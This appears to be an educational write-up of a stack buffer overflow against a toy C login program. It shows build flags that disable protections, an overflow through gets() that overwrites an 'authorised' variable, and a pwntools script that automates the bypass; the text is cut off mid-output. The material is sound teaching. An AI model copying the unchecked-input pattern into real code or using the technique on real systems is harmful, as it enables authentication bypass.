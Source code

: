 ```shell
gcc login.c -o login -fno-stack-protector -z execstack -no-pie
```
We enter a random password and we get incorrect password and we failed to login as Admin
```shell
~/Documents/coding/c$ ./login
Enter admin password: 
12313
Incorrect Password!
Failed to log in as Admin (authorised=0) :(
```
## 0verwriting local variables in the stack
Let's try entering a long random data and see what's happens
```shell
~/Documents/coding/c$ ./login
Enter admin password: 
abcdefg
Incorrect Password!
Successfully logged in as Admin (authorised=103) :)
```
We successfully logged in with a wrong password.The authorised variable is set to 103  which is the decimal value of the ascii character g. Our character from the code should only hold a maximum of 6 characters.

```c
char password[6];
```

Since we are using a dangerous method `gets()` it does not check whether the user input will fit inside the 6 byte `char[]`. Since the authorised variable is below the password array in the stack it will be the one that will be overwritten first after the buffer of 6 characters if filled. 
```c
char password[6];
int authorised = 0;
```
The if condition checks if authorised is not equal to zero and since it was overwritten to 103 it will return true and hence we will log in successfully without the correct password
```c
if(authorised) {
    printf("Successfully logged in as Admin (authorised=%d) :)\n", authorised);
}else{
	printf("Failed to log in as Admin (authorised=%d) :(\n", authorised);
}
```
Let's try using a pwn script to exploit this code
```python
from pwn import *

# execute the program locally
io = process('./login')

# debug the program and see whats being send and received 
context.log_level = "debug"

# send our string to overflow the buffer after the last colon Enter admin password:
io.sendlineafter(b':', b'abcdefg')

# Receive the output from the program
print(io.recvall().decode())

```
Let's run the script and automatically exploit the buffer overflow
```shell
~/Documents/coding/c$ python3 buffer.py
[+] Starting local process './login': pid 33611
[DEBUG] Received 0x17 bytes:
```